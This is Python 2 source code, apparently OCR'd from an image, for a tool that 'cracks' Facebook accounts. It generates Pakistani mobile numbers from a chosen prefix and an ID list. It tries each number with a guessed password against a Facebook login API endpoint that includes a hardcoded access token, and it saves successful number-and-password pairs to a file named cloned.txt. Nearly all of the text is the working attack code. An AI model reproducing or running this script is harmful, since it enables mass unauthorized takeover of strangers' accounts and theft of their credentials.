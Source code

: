 def pilih_login():
    peak = raw_input("\n\033[1;97mCHOOSE: \033[1;95m")
    if peak =="":
        print "\x1b[1;95mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo2
    print '\x1b[1;96m[1]  START CRACKING'
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;95mCHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "Enter any Pakistan Mobile code Number"+'\n'
        print 'Enter any code 1 to 49 All Network
        try:
            c = raw_input("\033[1;96mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;91m-'
    xxx = str(len(id))
    jalan ('\033[1;92m Total ids number: '+xxx)
    jalan ('\033[1;92mCode you choose: '+c)
    jalan ("\033[1;92mWait A While Start Cracking...")
    jalan ("\033[1;92mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(ok✔)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()